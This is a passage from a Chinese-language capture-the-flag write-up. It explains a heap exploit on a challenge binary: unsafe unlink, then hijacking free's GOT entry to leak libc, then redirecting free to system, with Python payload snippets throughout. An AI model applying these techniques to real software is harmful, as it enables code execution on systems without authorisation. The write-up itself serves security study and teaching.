renew 完 huge 送了以上 payload 來偽造 chunk 之後，call `wipe(big)`，他就會進行 unsafe unlink `0x603010`。

因為新版的 unlink 會檢查 FD->bk 會不會 = p，BK->fd 會不會 = p，所以 unlink 不能直接讓 GOT entry 接 shellcode。

unlink 完後，global buffer 的 layout 如下：

~~~assembly
0x602090:       0x00007ff7c9bae620      0x0000000000000000
0x6020a0:       0x00000000013b0040      0x0000000000602090
0x6020b0:       0x00000000013b0010      0x0000000100000000
0x6020c0:       0x0000000000000001
~~~
此時 huge_buf 會指到 global buffer 上，接下來再一次 renew huge 來讓這些 secret buffer 指到任意的 address。

payload：

~~~python
free_got = 0x602018
payload = ""
payload += 'A'*0x10 + p64(0x0) # padding
payload += p64(0x6020b0) # 讓 huge_buf 指到 small_buf 的 address
payload += p64(free_got) # 讓 small_buf 指到 GOT of free 來進行 GOT hijacking
~~~

接著 renew(small) 我們就可以把 `free` hijack 成 `puts`

~~~python
puts_got_value = 0x4006c6
payload = p64(puts_got_value)*2
~~~

這裡 *2 的目的是讓後面的 `puts` 不要壞掉

這時候我們再一次 renew(huge)，這時候就是 overwrite small_buf，我們讓他指到 `__libc_start_main` 的 GOT entry。

~~~python
libc_start_main_got = 0x602048
payload = p64(libc_start_main_got) + p32(1)*3
~~~

這裡的 `p32(1)` 是把 small big huge 的 inuse 設成 1。

接著呼叫 wipe(small) 會變成：

~~~
wipe(small) -> free(small) -> puts(small) -> puts(libc_start_main_got)
~~~

成功 leak libc function address。

這裡 libc 的版本是直接對比 babyheap 那題的 libc.so.6 是同一版本直接拿來用。

找到 libc base 之後，利用 renew(huge) 把 small_buf 在指回 free_got

~~~python
payload = p64(free_got) + p32(1)*3
~~~

之後 renew(small) 來把 free_got 再次 hijack：

~~~python
system = base + libc.symbols['system']
payload = p64(system) + p64(puts_got_value)
~~~
